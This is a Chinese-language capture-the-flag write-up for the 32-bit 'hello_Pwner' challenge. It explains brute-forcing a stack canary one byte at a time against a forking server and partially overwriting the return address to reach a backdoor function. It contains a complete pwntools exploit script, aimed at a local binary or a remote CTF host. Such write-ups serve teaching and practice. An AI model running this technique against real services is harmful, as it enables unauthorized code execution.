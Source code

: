 ```yaml
---
title: _hello_Pwner_wp
date: 2021-05-09 11:51:39
tags:

---
```




# _hello_pwner_wp

>one-by-one 爆破Canary原理
>
>1.对于Canary，虽然每次进程重启后Canary不同，但是同一个进程中的不同线程的Cannary是相同的，并且通过fork函数创建的子进程中的canary也是相同的，因为fork函数会直接拷贝父进程的内存。
>
>2.最低位为0x00，之后逐次爆破，如果canary爆破不成功，则程序崩溃；爆破成功则程序进行下面的逻辑。由此可判断爆破是否成功。



## 主函数

![](https://i.imgur.com/wkVw66U.png)

无限循环fork()子进程

进入vuln()函数：

## vuln()

![](https://i.imgur.com/M6f5TTi.png)

可以看到v1正是canary，其位置在ebp-0xc。

缓冲区在ebp-0x70的位置。



## 后门函数

![](https://i.imgur.com/NXpaIJh.png)



## 动态调试

> LD_PRELOAD=/lib/i386-linux-gnu/libc.so.6 ./hello_Pwner
>
> ps -el
>
> sudo gdb attach  pid





![](https://i.imgur.com/E5SiKcM.png)

动态调试发现backdoor的地址和read_plt的地址只有后四位不同，后三位各函数都是固定的，于是只需要爆破第四位就行。



## 爆破canary

> *anary*一般是尾随的(也有特殊情况,具体看作者的汇编情况),在32位下是4个*字节*,64位下是8个*字节*(最低位都是\x00) 

这里通过循环实现对剩余七个字节的爆破，（CANARY的最低字节为00）

```
canary = '\x00'
for k in range(3):
    for i in range(256):
        print "the " + str(k) + ": " + chr(i)
        p.send('a'*100 + canary + chr(i))
        a = p.recvuntil("Hello,Pwner!\n")
        print a

        
        if "*** stack smashing detected ***: ./hello_Pwner terminated\n" in a:
            continue
        else:
                canary += chr(i)
                print "canary: " + canary
                break
```



payload = 'A' * 100 + canary + 'A' * 12 + "\xba\x**7**7"

> 这个7可以换成0-f的任意一个

最后的exp：







```
from pwn import *
context.log_level = 'debug'
context.terminal = ['gnome-terminal','-x','bash','-c']
context(arch='i386', os='linux')
local = 1
elf = ELF('./hello_Pwner')

if local:
    p = process('./hello_Pwner')
    elf=ELF('./hello_Pwner')
    #libc = ELF("./libc.so.6")

else:
    p = remote('39.96.88.40',8010)
    libc = ELF('./hello_Pwner')
p.recvuntil('Hello,Pwner!\n')


puts_plt = elf.plt['puts']
puts_gots=elf.got['puts']
print p32(puts_plt)

canary = '\x00'
for k in range(3):
    for i in range(256):
        print "the " + str(k) + ": " + chr(i)
        p.send('a'*100 + canary + chr(i))
        a = p.recvuntil("Hello,Pwner!\n")
        print a

        
        if "*** stack smashing detected ***: <unknown> terminated\n" in a:
            continue
        else:
                canary += chr(i)
                print "canary: " + canary
                break
payload = 'A' * 100 + canary + 'A' * 12 + "\xba\x77"#read  and back zhi you  hou si ge zi jie bu yi yang
p.send(payload)
p.interactive()
```



 对远端多次运行exp，总有一次成功。

